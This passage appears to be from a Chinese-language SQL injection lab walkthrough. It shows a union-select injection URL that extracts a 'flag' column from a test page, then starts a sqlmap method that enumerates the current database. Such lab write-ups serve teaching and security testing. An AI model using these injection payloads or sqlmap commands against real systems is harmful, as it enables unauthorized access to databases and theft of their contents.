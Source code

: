 获取`flag`表的中列的值

```text
  http://169.254.91.186/pentest/test/sqli/sqltamp.php?gid= -1' union select 1,flag,3,4 from flag %23
```

![&#x83B7;&#x53D6;flag&#x8868;&#x7684;&#x4E2D;&#x5217;&#x7684;&#x503C;](../.gitbook/assets/1_4.png)

### 方法二

#### 工具

* python 2.7.15
* sqlmap

#### 步骤

获取当前数据库名称

```text
python sqlmap.py -u http://169.254.91.186/pentest/test/sqli/sqltamp.php?gid=1 -p gid --current-db
```

![&#x83B7;&#x53D6;&#x5F53;&#x524D;&#x6570;&#x636E;&#x5E93;&#x540D;&#x79F0;](../.gitbook/assets/1_5.png)